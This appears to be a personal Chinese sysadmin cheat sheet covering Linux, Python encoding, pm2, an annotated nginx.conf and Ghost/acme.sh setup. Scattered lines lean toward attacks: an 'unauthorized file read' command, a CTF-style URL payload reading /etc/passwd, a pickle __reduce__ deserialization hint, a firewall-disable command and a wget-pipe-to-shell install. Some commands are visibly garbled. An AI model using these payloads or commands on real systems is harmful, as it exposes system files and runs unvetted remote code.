

fortify：软件源码测试工具


[TOC]


curl -X POST url

## 0、linux命令

-   

```nginx
drwxr-xr-x   2 root root  4096 2009-01-14 17:34 bin 

        文件类型代码：[ d ]：目录、[ - ]：文件、[ l ]：链接、[ b ]：可储存周边设备、[ c ]：序列设备。
        文件权限属性：[ r ]：可读、[ w ]：可写、[ x ]：可执行。

		-- 开头数字代表字母的位置
        0：代表是文件还是目录，还是其他的类型（这里d:表示是目录） 
        123 ：表示拥有人的权限 （这里rwx:代表拥有人有可读，可写，可执行的权限） 
        456：表示同组群使用者权限（这里r-x代表同组群使用者有可读，可执行权限） 
        789：表示其他使用者权限（这里r-x代表其他使用者有可读，可执行权限）

lrwxrwxrwx   1 root root    11 2009-01-14 10:05 cdrom -> media/cdrom

		第一个字母：l代表此问链接文件，估计相当与windows的快捷方式吧！
        所有者权限：读+写+执行=4+2+1=7
        组许可权限 ： 读+写= 4+2=6
        其他用户许可权限：读=4


chgrp 修改文件或目录所属的组 【注意：要改变的群組名必须在 /etc/group 中存在】
	语法：chgrp 群组名 文件或目录  如chgrp [options] newgroup files/directorys
			chgrp users tmp


chown 修改文件或目录所属的主与组
	语法：chown [ -R ] 用户名 文件或目录
	chown [ -R ] 用户名:群组名 文件或目录

 /* ------------------------------------------------------------------------------
		文件权限
	-------------------------------------------------------------------------------*/
-- 查看文件权限
ls -al 或者 ls -lha /

-- 越权读取文件
data -f 文件名

-- 解压tar.gz
tar -xf archive.tar.gz

-- 解压 .gz
gunzip clash-linux-amd64-v1.14.0.gz
 /* ------------------------------------------------------------------------------
		配置Python
	-------------------------------------------------------------------------------*/
# 安装命令：
sudo apt install python-pip
sudo apt install python3-pip

# 查看Python、pip安装位置
whereis pip
whereis pip3
whereis python

# 设置Python别名
vim ~/.bashro
alias pip=/usr/bin/pip
alias pip3=/usr/bin/pip3
alias python=/usr/bin/python2.7
alias python3=/usr/bin/python3.6 

```


```javascript
 /* ------------------------------------------------------------------------------
		修改终端
	-------------------------------------------------------------------------------*/
	git clone https://github.com/sigurdga/gnome-terminal-colors-solarized.git
	cd gnome-terminal-colors-solarized
	./set_dark.sh
	1
	yes
    2
	git clone https://github.com/seebi/dircolors-solarized.git
	cp ~/dircolors-solarized/dircolors.256dark ~/.dircolors
	vim ./bashrc 末尾加入：eval `dircolors ~/.dircolors`
   	git clone https://github.com/altercation/vim-colors-solarized.git
	cp vim-colors-solarized/colors/solarized.vim /usr/share/vim/vim74
	vim ~/.vimrc
		syntax enable
		let g:solarized_termcolors=256
		set background=dark
		colorscheme solarized

/* ------------------------------------------------------------------------------
		查看信息
	-------------------------------------------------------------------------------*/
	// ubuntu查看版型信息
	lsb_release -a 或者 cat /proc/version

    
```


### 0、mysql中的一些信息

```nginx
数据库目录：/var/lib/mysql/
ubuntu下是：/etc/mysql/mysql.conf.d/mysqld.cnf

配置文件：/usr/share/mysql-8.0（命令及配置文件），/etc/mysql（如my.cnf）。

相关命令：/usr/bin（mysqladmin、mysqldump等命令）和/usr/sbin。

启动脚本：/etc/init.d/mysql（启动脚本文件mysql的目录）。

服务器启动后端口查询
sudo netstat -anp | grep mysql

 
服务管理
 


关闭防火墙：
sudo ufw disable

设置端口3306开放：
sudo ufw allow 3306


```


```nginx

```


### 1、python的一些库

**`\u`字符串**

```py
import json
print(json.dumps('你好'))  # "\u4f60\u597d"

# 解
s = '\u4f60\u597d'
print(s)  # 你好
print(str(s))  # 你好
print(repr(s))  # '你好'
```

**`\x字符串`**

```py
print('你好'.encode('utf-8'))  # b'\xe4\xbd\xa0\xe5\xa5\xbd'
print('你好'.encode('gbk'))  # b'\xc4\xe3\xba\xc3'

# 解
s = '\xe4\xbd\xa0\xe5\xa5\xbd'
print(s.encode('raw_unicode_escape').decode('utf-8'))  # 你好
s = '\xc4\xe3\xba\xc3'
print(s.encode('raw_unicode_escape').decode('gbk'))  # 你好
```

`十六进制字符串`

```py
import base64
print(base64.b16encode('你好'.encode()))  # b'E4BDA0E5A5BD

# 解
import base64
s = 'E4BDA0E5A5BD'
print(base64.b16decode(s))  # b'\xe4\xbd\xa0\xe5\xa5\xbd'
print(base64.b16decode(s).decode())  # 你好

# 或
import binascii
print(binascii.b2a_hex('你好'.encode()))  # b'e4bda0e5a5bd'
print(binascii.a2b_hex('e4bda0e5a5bd').decode())  # 你好
```

**`检测类型`**

```py
pip install chardet

import chardet

s = '你好'.encode()
print(chardet.detect(s))  # {'encoding': 'utf-8', 'confidence': 0.7525, 'language': ''}

s = b'\u4f60\u597d'
print(chardet.detect(s))  # {'encoding': 'ascii', 'confidence': 1.0, 'language': ''}

s = b'\xe6\x97\xa9\xe4\xb8\x8a\xe5\xa5\xbd'
print(chardet.detect(s))  # {'encoding': 'utf-8', 'confidence': 0.87625, 'language': ''}

s = b'\xc4\xe3\xba\xc3'
print(chardet.detect(s))  # {'encoding': 'TIS-620', 'confidence': 0.3598212120361634, 'language': 'Thai'}

```


#### 0、进制转换

```py
# 字符串转十进制
char = '_'
ord(char)

# 字符串转二进制
bin(ord(char))

# 字符串转八进制
oct(ord(char))

# 字符串转十六进制
hex(ord(char))
print(hex(ord(e)).upper().replace('0X', r'\u'))

# 十进制转字符串
x = 19968
chr(x)

# 二进制转字符串
x = '0b100111000000000'
chr(int(x, 2))

# 八进制转字符串
x = '0o47000'
chr(int(x, 8))

# 十六进制转字符串
x = '0x4e00'
chr(int(x, 16))
x = r'\u4E00'
eval("u'" + x + "'")
```


>   **0b / 0B --> 二进制字符前缀**
>
>   **0o / 0O --> 八进制字符前缀**
>
>   **0x / 0X --> 十六进制字符前缀**

```py
# 二进制转八进制
x = "0b10110011111"
oct(int(x, 2)) # "0o2637"

# 二进制数据转十进制
x = '0b10110011111'
int(x, 2)
# 结果
1439

# 二进制转十六进制
x = '0b10110011111'
hex(int(x, 2))
# 结果
'0x59f'

# 八进制转二进制
x = '0o2637'
bin(int(x, 8))
# 结果
'0b10110011111'

# 八进制转十进制
x = '0o2637'
int(x, 8)
# 结果
1439

# 八进制转十六进制
x = '0o2637'
hex(int(x, 8))
# 结果
'0x59f'

# 十进制转二进制
x = '1439'
bin(int(x, 10))
# 结果
'0b10110011111'

# 十进制转八进制
x = '1439'
oct(int(x, 10))
# 结果
'0o2637'

# 十进制转十六进制
x = '1439'
hex(int(x, 10))
# 结果
'0x59f'

# 十六进制转二进制
x = '0x59f'
bin(int(x, 16))
# 结果
'0b10110011111'

# 十六进制转八进制
x = '0x59f'
oct(int(x, 16))
# 结果
'0o2637'

# 十六进制转十进制
x = '0x59f'
int(x, 16)
eval("0x" + a[2:])
# 结果
1439
1439
```


```nginx
parse.urlparse()(url).hostname						对url中的各个组成部分进行分割
urlsplit()											不处理NFKC标准化(?url=file:////suctf.cc/etc/passwd)
os.environ											用于获取、检查、设置（添加/覆盖）和删除 Python 程序中的环境变量
os.environ.pop()									删除环境变量

urllib 	库用于操作网页 URL，并对网页的内容进行抓取处理。
urllib.parse.quote	使用 %xx 转义符替换 string 中的特殊字符。 字母、数字和 '_.-~' 等字符一定不会被转码。 在默认情况下，此函数只对 URL 的路径部分进行转码

commands.getoutput（python2.7） 将系统命令作为字符串并返回由命令生成的任何输出

【 __reduce__ 】魔术方法会在该类被反序列化的时候会被调用,
```

```nginx
Pickle模块中最常用的函数为：
（1）pickle.dump(obj, file, [,protocol])： 函数的功能：将obj对象序列化存入已经打开的file中。
    obj：想要序列化的obj对象。
    file:文件名称。
    protocol：序列化使用的协议。如果该项省略，则默认为0。如果为负值或HIGHEST_PROTOCOL，则使用最高的协议版本。

（2）pickle.load(file)：将file中的对象序列化读出。
	file：文件名称。

（3）pickle.dumps(obj[, protocol])：将obj对象序列化为string形式，而不是存入文件中。
    obj：想要序列化的obj对象。
    protocal：如果该项省略，则默认为0。如果为负值或HIGHEST_PROTOCOL，则使用最高的协议版本。

（4）pickle.loads(string)：从string中读出序列化前的obj对象。
	string：文件名称。

     【注】 dump() 与 load() 相比 dumps() 和 loads() 还有另一种能力：
		dump()函数能一个接着一个地将几个对象序列化存储到同一个文件中，随后调用load()来以同样的顺序反序列化读出这些对象。
```

#### 1、request

```js
r.encoding                       #获取当前的编码
r.encoding = 'utf-8'             #设置编码
r.text                           #以encoding解析返回内容。字符串方式的响应体，会自动根据响应头部的字符编码进行解码。
r.content                        #以字节形式（二进制）返回。字节方式的响应体，会自动为你解码 gzip 和 deflate 压缩。

r.headers                        #以字典对象存储服务器响应头，但是这个字典比较特殊，字典键不区分大小写，若键不存在则返回None

r.status_code                     #响应状态码
r.raw                             #返回原始响应体，也就是 urllib 的 response 对象，使用 r.raw.read()   
r.ok                              # 查看r.ok的布尔值便可以知道是否登陆成功
 #*特殊方法*#
r.json()                         #Requests中内置的JSON解码器，以json形式返回,前提返回的内容确保是json格式的，不然解析出错会抛异常
r.raise_for_status()             #失败请求(非200响应)抛出异常

-- post发送json请求
 r = requests.post('https://api.github.com/some/endpoint', data=json.dumps({'some': 'data'}))
 print(r.json())

-- 定制头和cookie信息
 header = {'user-agent': 'my-app/0.0.1''}
 cookie = {'key':'value'}
 r = requests.get/post('your url',headers=header,cookies=cookie)

 data = {'some': 'data'}
 headers = {'content-type': 'application/json',
           'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:22.0) Gecko/20100101 Firefox/22.0'}
 
 r = requests.post('https://api.github.com/some/endpoint', data=data, headers=headers)
 print(r.text)
```

#### 3、Python的一些东西

```py
import re  # 正则匹配
re.findall("",data) # 正则匹配
bytes.fromhex(data).decode('utf-8')  # 16进制解码
    
```


### 2、http

#### 1、请求头

```js
GET 			/ HTTP/1.1
Host: 			 指定请求的服务器的域名和端口号
Upgrade-Insecure-Requests: 1
User-Agent: 	 的内容包含发出请求的用户信息
Accept: 		 指定客户端能够接收的内容类型
Accept-Encoding: 指定浏览器可以支持的web服务器返回内容压缩编码类型
Accept-Language: 浏览器可接受的语言
Referer: 		 先前网页的地址，当前请求网页紧随其后,即来路
Connection: 	 表示是否需要持久连接
From: 			 发出请求的用户的Email
Date: 			 请求发送的日期和时间
Authorization:   HTTP授权的授权证书
Content-Type: 	 请求的与实体对应的MIME信息
Cache-Control:   指定请求和响应遵循的缓存机制
Pragma:			 用来包含实现特定的指令
Proxy-Authorization: 连接到代理的授权证书
Upgrade: 		 向服务器指定某种传输协议以便服务器进行转换（如果支持）
X-Forwarded-For: 用来表示 HTTP 请求端真实 IP
```


### 3、pm2

**[参考地址](https://www.cnblogs.com/chyingp/p/pm2-documentation.html)**

>   这个玩样是node进程管理工具
>
>   ```c
>   $HOME/.pm2 		将包含所有 PM2 相关文件
>   $HOME/.pm2/logs 将包含所有应用程序日志
>   $HOME/.pm2/pids 将包含所有应用程序 pid
>   $HOME/.pm2/pm2.	记录 PM2 日志	
>   $HOME/.pm2/pm2.pid PM2 pid
>   $HOME/.pm2/rpc.sock 远程命令的套接字文件
>   $HOME/.pm2/pub.sock 可发布事件的套接字文件
>   $HOME/.pm2/conf.js PM2 Configuration
>   ```
>
>   
>
>   ```nginx
>   -- 全局安装
>   npm install -g pm2
>   
>   -- 启动
>   pm2 start ./bin/www --watch
>   
>   -- 重启
>   pm2 restart app.js
>   
>   -- 停止
>   pm2 stop app_name|app_id
>   
>   -- 停止所有
>   pm2 stop all
>   
>   -- 删除
>   pm2 stop app_name|app_id
>   pm2 stop all
>   
>   -- 查看进程状态
>   pm2 list
>   
>   -- 查看某个进程的信息
>   pm2 describe 0
>   
>   -- 自动重启
>   pm2 start app.js --watch
>   
>   -- 负载均衡
>   pm2 start app.js -i 3 # 开启三个进程
>   pm2 start app.js -i max # 根据机器CPU核数，开启对应数目的进程 
>   
>   
>   
>   
>   
>   参数说明
>   --watch：		监听应用目录的变化，一旦发生变化，自动重启。
>   -i --instances：	启用多少个实例，可用于负载均衡。如果-i 0或者-i max，则根据当前机器核数确定实例数目。
>   --ignore-watch：	排除监听的目录/文件，可以是特定的文件名，也可以是正则。比如--ignore-watch="test node_modules "some scripts""
>   -n --name：		应用的名称。查看应用信息的时候可以用到。
>   -o --output <path>：	标准输出日志文件的路径。
>   -e --error <path>：	错误输出日志文件的路径。
>   --interpreter <interpreter>：
>   ```
>
>   


### 4、nginx

>   ==nginx log日志路径：/var/log/nginx==
>
>   ```nginx
>   #sudo /usr/local/nginx/sbin/nginx -t -c /usr/local/nginx/conf/nginx.conf
>   #/usr/local/nginx/sbin/nginx -s quit
>   
>   -- 查找nginx文件位置
>   whereis nginx
>   
>   service nginx start  # 启动nginx
>   service nginx reload  # 重新加载nginx配置文件
>   nginx -s reopen            # 重启 Nginx
>   nginx -s stop              # 停止 Nginx
>   ```
>
>   

>   **nginx依赖支持**
>
>   ```nginx
>   # 无GCC编译器
>   sudo apt install build-essential
>   
>   # 依赖包pcre安装
>   sudo apt-get install libpcre3 libpcre3-dev
>   
>   # 依赖包openssl安装
>   sudo apt-get install openssl libssl-dev
>   
>   # 依赖包zlib安装
>   sudo apt-get install zlib1g-dev
>   
>   # libxml2, libxslt 库
>   sudo apt-get install libxslt1-dev
>   
>   # GD库
>   sudo apt install libgd-dev
>   
>   # libgeoip-dev
>   sudo apt install libgeoip-dev
>   
>   # 罗列出与nginx相关的软件
>   dpkg --get-selections|grep nginx
>   
>   # 删除查询出与nginx有关的软件
>   sudo apt-get --purge remove nginx
>   
>   # 全局查找与nginx相关的文件
>   sudo find / -name nginx*
>   ```
>
>   

#### 0、前言

>   **POP3**：邮局协议的第三个版本 
>
>   **SMTP**：简单邮件传输协议
>
>   **IMAP**：交互式邮件存取协议
>
>   **IIS**：互联网信息和服务
>
>   **Tomcat**：Servlet和Jsp的Web应用软件
>
>   **Apache**：重量级的、不支持高并发的Web服务器
>
>   **Lighttpd**：和nginx一样，轻量级、高性能、高并发Web服务器
>
>   **CGI**：通用网关接口
>
>   **流行开源许可证**：GPL、BSD、MIT、Mozilla、Apache、LGPL
>
>   -   centOS安装nginx需要的库支持
>
>       -   GCC编译器
>
>       -   PCRE兼容正则表达库
>
>       -   zlib提供开发人员压缩算法
>
>       -   OpenSSL开放源代码的软件库包
>
>       -   ```
>           yum insta1l -y gcc pcre pcre-deve1 z1ib zlib-deve1 openss1 openss 1-deve1
>           ```
>
>   

#### 1、nginx 一些命令

>   -   **kill 信号 nginx进程号**
>       -   **TERM/INT**：立即关闭整个服务
>       -   **QUIT**：优雅"地关闭整个
>       -   **HUP**：重读配置文件并使用服务对新配置项
>       -   **USR1**：重新打开日志文件，可以用来进行日志
>       -   **USR2**：平滑升级到最新版的ngi
>       -   **WINCH**：所有子进程不在接收处理新连接，相当于给work进程发送QUIT

>   -   **nginx -h**：帮助
>   -   **nginx -v**：nginx版本信息
>   -   **nginx -V**：详细信息
>   -   **nginx -t**：测试conf语法问题
>   -   **nginx -T**：测试成功会重新输出配置文件内容
>   -   **nginx -q**：在测试期间只输出错误信息，无语法错误什么也不输出
>   -   **nginx -s**：后面可以跟信号，stop[快速关闭]、quit[等待以有代理完成在关闭]、reopen[重新打开日记]、reload = HUP
>   -   **nginx -p**：指定nginx的路径
>   -   **nginx -c**：指定nginx的配置文件路径

>   
>
>   在 Nginx 中，如果 uri 没有匹配`location`，那么它通常默认查找`/usr/share/nginx/html/`（与 OpenResty 一样`/usr/openresty/nginx/html/`）。因此，它似乎与您的 URI 之一不匹配并回退到默认位置。

#### ==2、nginx.conf详解==

-   **配置文件一共由三个部分组成，全局块、events块、http**
    -   **http块中又包含http全局块、多个server块，每个server块中可以包含server全局块和多个location块**

```nginx
# 全局块[更改内容后都要先stop，在启动nginx才生效]

# 设置以什么用户启动nginx，默认nobody用户
user  nobody;

# 来用指定是否开启工作线程
master_process: off;[默认on]

# 用来指定开启工作线程的个数[建议为服务器CPU的内核数]
worker_processes  1;[默认1]

# 守护式进程是linux后台执行的一种服务进程，特点是独立于控制终端，不会随着终端关闭而停
daemon：on;[默认on]

# event块
# events块涉及的指令主要影响Nginx服务器与用户的网络连接。
events {
    # 用来设置Nginx网络连接序列化，一个个来唤醒接收，就防止了多个进程对连接的争抢。
    accept_mutex：on;[默认on]
        
    # 用来设置是否允许一个进程同时接收多个网络连接
   	multi_accept: on;[默认off]
    
    # 用来配置单个worker进程最大的连接数[值不能大于操作系统支持打开的最大文件句柄数量]
   	worker_connections: 1024[默认512]
    
        # 设置nginx用哪种事件处理驱动来处理网络消息
    use: epoll;
}

# http块 可配置代理、缓存、日志定义和第三方模块
http {
    # http全局块
    include       mime.types;[mine.types是网络资源的媒体类型]
        
    # 配置nginx响应前端请求默认的mime类型
    # [application/octet-stream：以二进制流处理附件]
    # [text/html]
    default_type  application/octet-stream;[默认text/plain；文本类型]
        
    # 自定义log日志输出格式，访问后会在日志文件中留下format中的内容，可添加内置变量
    log_format myformat '====>'；
    access_log logs/myd.log myformat;
    
    # 这个属性可以提高nginx处理静态资源的性能
    sendfile        on;[默认off]
    
    # 长连接超时时间
    keepalive_timeout  65;[默认值75秒]
    
    # 用来设置一个keep-alive连接使用的
    keepalive_requests: 100;[默认100]  
        
    /* ------------------------------------------------------------------------------
		静态资源相关配置
        # linux2.5.9以后版本三个设置可以都开[sendfile、tcp_nopush、tcp_nodelay]
	-------------------------------------------------------------------------------*/
        
    # 开启高效的文件传输模式[一般配置在http块]
        # 未使用sendfile处理流程：客户端 -> 服务器 -> 目标资源 -> 内核缓冲 -> 应用程序缓冲 -> Socket缓冲 -> 网卡缓冲 -> 客户端
        # 开启后的流程：客户端 -> 服务器 -> 目标资源 -> 内核缓冲 -> Socket缓冲 -> 网卡缓冲 -> 客户端
	sendfile on;[默认off]
        
    # 提升网络包传输效率，需打开sendfile才生效[也就是把数据存起来满了在发]
    tcp_nopush：on;[默认off]
        
    # 提高网络包传输实时性，需keep-alive[长连接连接开启的情况下[也就是有数据就发]
    tcp_nodelay: on;[默认on]
        
    #server块
    server {
        #server全局块
        # default_server属性是标识符，用来将此虚拟主机设置成默认主机，不指定默认主机，默认走第一个server
        # [默认主机：没有匹配到对应的address:port就会走这个]
        listen       8000 default_server;[默认监听80]
        
        # 设置以text文件的形式响应给浏览器
        default_type text/plain;
        
        # 设置虚拟主机服务名称，如：域名，可使用通配符、正则、精确匹配
        # 通配符有：[*]：匹配任意，但只能出现在开头或结尾
        # 正则：
        	/**
        		[~]：作为正则开始
        		[^]：字符串开始位置
        		[$]：字符串结束位置
        		[.]：除[换行]之外任意一个字符
                [\]：标记下一个字符为特殊字符
                [xyz]：匹配任意一个指定字符
                [a-z]：匹配任意一个指定字符范围
                [\w]：匹配所有大小写字母和数字
                [\d]：匹配数字
                [{n}]：字符只能出现n次
                [{n,}]：字符至少出现n次
                [{n,m}]：至少出现n次，顶多出现m次
                [*]：出现0次或多次
                [+]：出现1次或多次
                [?]：出现0次或1次
        	*/
        # 当出现多个匹配成功时，执行的顺序为
        # 1、准确匹配server_name
        # 2、通配符开始时匹配server_name成功
        # 3、通配符在结束时匹配server_name成功
        # 4、正则表达式匹配成功server_name
		# 5、default_server处理，没有默认找第一个server
        server_name  localhost;[默认为空]
        
        # 设置请求url
            # [=]：精确匹配，url要一模一样
            # [~]：区分大小写
            # [~*]：不区分大小写
            # [^~]：如果模式匹配那么就停止其他搜索模式
        location / {
            
            # 设置请求的根
            # 区别alias：访问资源的路径为：location路径 + 访问资源的路径
            root   html;
            
            # 用来更改location的Url，使用时root和alias二选一
            # 区别root：访问资源的路径会替换掉location的路径，
            # 如果不想被替换需要在某尾加上location的路径，location路径末尾有/alias末尾也要有
            alias html;
            
            # 设置默认访问主页
            index  index.html index.htm;
        }

        # 配置发生错误跳转的页面
        error_page   500 502 503 504  /50x.html;
        
        # 指定具体跳转位置
        error_page 404 https://www.google.com;
        /**
        	可以指定重定向地址
        	error_page 404 /50x.html;
        	error_page 500 502 503 504 /50x.html;
        	location =/50x.html {
        		root html
    		}
        
        	使用location的@符合完成错误信息
        	error_page 404 @jump_to_error;
            location @jump_to_error {
                default_type text/plain;
                return 404 'Not Found Page...'
            }
        
        	更改返回状态码，200前不能有空格
        	error_page 404 =200 /50x.html;
            location =/50x.html {
                root html
            }
        */
        
        location = /50x.html {
            root   html;
        }
        
        location /getString {
            return 200 "<h1>to the view</h1>";
        }
    }
    #这边可以有多个server块
    server {
      ...
    }
}

server {  
   server_name domain.com;
   listen 443 ssl spdy;
   spdy_headers_comp 6;
   spdy_keepalive_timeout 300;
   keepalive_timeout 300;
   ssl_certificate_key /etc/nginx/ssl/domain.key;
   ssl_certificate /etc/nginx/ssl/domain.crt;
   ssl_session_cache shared:SSL:10m;  
   ssl_session_timeout 24h;           
   ssl_buffer_size 1400;              
   ssl_stapling on;
   ssl_stapling_verify on;
   ssl_trusted_certificate /etc/nginx/ssl/trust.crt;
   resolver 8.8.8.8 8.8.4.4 valid=300s;
   add_header Strict-Transport-Security 'max-age=31536000; includeSubDomains';
   add_header X-Cache $upstream_cache_status;
   location / {
        proxy_cache STATIC;
        proxy_cache_valid 200 30m;
        proxy_cache_valid 404 1m;
        proxy_pass http://ghost_upstream;
        proxy_ignore_headers X-Accel-Expires Expires Cache-Control;
        proxy_ignore_headers Set-Cookie;
        proxy_hide_header Set-Cookie;
        proxy_hide_header X-powered-by;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto https;
        proxy_set_header Host $http_host;
        expires 10m;
    }
    location /content/images {
        alias /path/to/ghost/content/images;
        access_log off;
        expires max;
    }
    location /assets {
        alias /path/to/ghost/themes/uno-master/assets;
        access_log off;
        expires max;
    }
    location /public {
        alias /path/to/ghost/built/public;
        access_log off;
        expires max;
    }
    location /ghost/scripts {
        alias /path/to/ghost/core/built/scripts;
        access_log off;
        expires max;
    }
    location ~ ^/(?:ghost|signout) { 
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header Host $http_host;
        proxy_pass http://ghost_upstream;
        add_header Cache-Control "no-cache, private, no-store,
        must-revalidate, max-stale=0, post-check=0, pre-check=0";
        proxy_set_header X-Forwarded-Proto https;
    }
}
```


```nginx
-- nginx查看进程号
ps -ef|grep nginx

-- 查找nginx配置文件
sudo find / -name nginx.conf

/usr/sbin/nginx -c 
/etc/nginx/nginx.conf

-- 启动nginx
sudo /etc/init.d/nginx start
sudo /etc/init.d/nginx restart
```

#### 3、将nginx添加到系统服务中

```nginx
# 将nginx添加到系统服务中
vim /usr/lib/systemd/system/nginx.service

#配置文件内容
[Unit]                                          
Description=nginx 
After=network.target 
 
[Service] 
Type=forking 
ExecStart=/usr/local/nginx/sbin/nginx 
ExecReload=/usr/local/nginx/sbin/nginx -s reload 
ExecStop=/usr/local/nginx/sbin/nginx -s quit
PrivateTmp=true 
 
[Install] 
WantedBy=multi-user.target

[Unit]:服务的说明
Description:描述服务
After:描述服务类别
[Service]服务运行参数的设置
Type=forking是后台运行的形式
ExecStart为服务的具体运行命令
ExecReload为重启命令
ExecStop为停止命令
PrivateTmp=True表示给服务分配独立的临时空间

-- 重新加载systemd
systemctl daemon-reload


#查看nginx服务状态
systemctl status nginx.service
#启动nginx服务
systemctl start nginx.service
#停止nginx服务
systemctl stop nginx.service
#重启nginx服务
systemctl restart nginx.service
#重新读取nginx配置(这个最常用, 不用停止nginx服务就能使修改的配置生效)
systemctl reload nginx.service

启动nginx服务：sudo systemctl start nginx.service
关闭nginx服务：sudo systemctl stop nginx.service
重启nginx服务：sudo systemctl restart nginx.service
显示nginx服务的状态：systemctl status nginx.service
在开机时启用nginx服务：sudo systemctl enable nginx.service
在开机时禁用nginx服务：sudo systemctl disable nginx.service
```


```nginx
-- Ubuntu安装nginx的文件目录

所有的配置文件都在【/etc/nginx】

并且每个虚拟主机已经安排在了【/etc/nginx/sites-available】下

程序文件在【/usr/sbin/nginx】

日志放在了【/var/log/nginx】中
并已经在【/etc/init.d】/下创建了启动脚本nginx
默认的虚拟主机的目录设置在【/var/www/nginx-default 】
```

#### 4、nginx.conf

```nginx
1、在 nginx 启动时，会加载 /etc/nginx/nginx.conf 配置文件
2、打开 nginx.conf 后可以看到，在 Virtual Host Configs 部分下，加载了两个部分
```

```nginx
	##
	# Virtual Host Configs
	##

	include /etc/nginx/conf.d/*.conf;
	include /etc/nginx/sites-enabled/*;
```

```nginx
3、nginx 会从 /etc/nginx/conf.d 中加载以 .conf 结尾的配置文件
4、nginx 会从 /etc/nginx/sites-enabled 中加载任何名称的配置文件
```

##### 1、sites-available 文件夹

```nginx
sites-available 中拥有名为 default 的配置文件，
打开即可在该文件开头看到 nginx packaging team 的说明：
	文件夹下的default为网址配置文件参考，由于在nginx更新时，default会一同更新以展示配置文件的变化
	所以在配置网站时，不能直接修改此文件，需要复制为新文件，再进行修改

而 sites-available 文件夹 则是用于存放网站的配置文件，意为可用的网站列表
	用于在需要时链接到 sites-enabled 中作为需要启用的网站。
```

##### 2、sites-enabled 文件夹

```nginx
sites-enabled 中则只拥有 sites-available 文件夹下 default 的软链接
	sites-enabled 下的文件，会作为 nginx.conf 的一部分加载
	sites-enabled 下的用于存放 sites-available 中文件的软连接
	
	【软连接设置】
	ln  -s  [源文件或目录]  [目标文件或目录]
	创建/var/test 引向/var/www/test 文件夹 
	ln –s  /var/www/test   /var/test test

		【修改软连接】
		ln –snf  [新的源文件或目录]  [目标文件或目录]
		这将会修改原有的链接地址为新的地址
	
		【in的其他参数】
		常用的参数：

		-b 删除，覆盖以前建立的链接
		-d 允许超级用户制作目录的硬链接
		-f 强制执行
		-i 交互模式，文件存在则提示用户是否覆盖
		-n 把符号链接视为一般目录
		-s 软链接(符号链接)
		-v 显示详细的处理过程

sites-enabled 意为已开启的网站，将 sites-available 中的配置文件链接到此处，以使配置文件被 nginx 加载。
```


### 5、ghost

```nginx
  /* ------------------------------------------------------------------------------
		ghost常用命令
	-------------------------------------------------------------------------------*/
	-- ghost-cli位置
	/usr/lib/node_modules/ghost-cli/extensions/nginx

    -- 启动
    ghost start
	

    -- 停止
    ghost stop
	sudo /usr/local/nginx/sbin/nginx -c /usr/local/nginx/conf/nginx.conf

    -- 为ghost创建ssl
    ghost setup ssl

    -- 一起创建 nginx 和 ssl 设置
    ghost setup nginx ssl

	-- 重启
	sudo /usr/local/nginx/sbin/nginx -s quit
	sudo /usr/local/nginx/sbin/nginx 

	-- 重新加载配置文件
	sudo /usr/local/nginx/sbin/nginx -s reload

  /* ------------------------------------------------------------------------------
		SSL 配置
	-------------------------------------------------------------------------------*/
    ghost config url https://www.peekaboo.show

    # 获取 Ghost-CLI 为您生成 SSL 设置：
    ghost setup nginx ssl

    # 将您的配置更改回您的规范域
    ghost config url https://www.peekaboo.show

    # Edit the nginx config files for your second domain to redirect to your canonical domain. In both files replace the content of the first location block with:
    return 301 https://www.peekaboo.show$request_uri;
    sudo nginx -t
    sudo /etc/init.d/nginx -s reload

	/etc/letsencrypt/acme.sh --home "/etc/letsencrypt"

  /* ------------------------------------------------------------------------------
		ghost创建文件相关命令
	-------------------------------------------------------------------------------*/
    sudo npm install ghost-cli@latest -g

    usermod -aG sudo user	[将用户添加到超级用户组以解锁管理员权限]
    sudo mkdir -p /var/www/ghost
    sudo chown blog:blog /var/www/ghost [设置文件所属用户]
    sudo chmod 775 /var/www/ghost [设置的是读写执行查看进入权限]

  /* ------------------------------------------------------------------------------
		npm相关命令
	-------------------------------------------------------------------------------*/
    npm config set registry https://registry.npm.taobao.org	[淘宝源]
    npm config set registry https://registry.npmjs.org [恢复]
    npm config get registry	[查看当前源]
    cnpm config get registry  [查看当前cnpm源]
    sudo npm install npm -g	[npm升级]

 /* ------------------------------------------------------------------------------
		acme.sh
	-------------------------------------------------------------------------------*/
    # 提前安装依赖
    sudo apt install socat

    # 切换为 root 用户,
    sudo -i
    wget -O - https://get.acme.sh | sh -s email=my@example.com\
	
	# 安装完成后文件所在目录
	 ~/.acme.sh =  /root/.acme.sh

	alias acme.sh=~/.acme.sh/acme.sh	# 创建别名 
	source ~/.bashrc	# 刷新让别名生效
    crontab -l 		# 查看定时任务

	# 验证acme.sh是否安装成功
	acme.sh

	# 卸载
	acme.sh --uninstall
	rm -r ~/.acme.sh
    
	acme.sh --issue -d peekaboo.show --dns \
 --yes-I-know-dns-manual-mode-enough-go-ahead-please
	# 在nds中添加txt解析后执行下面
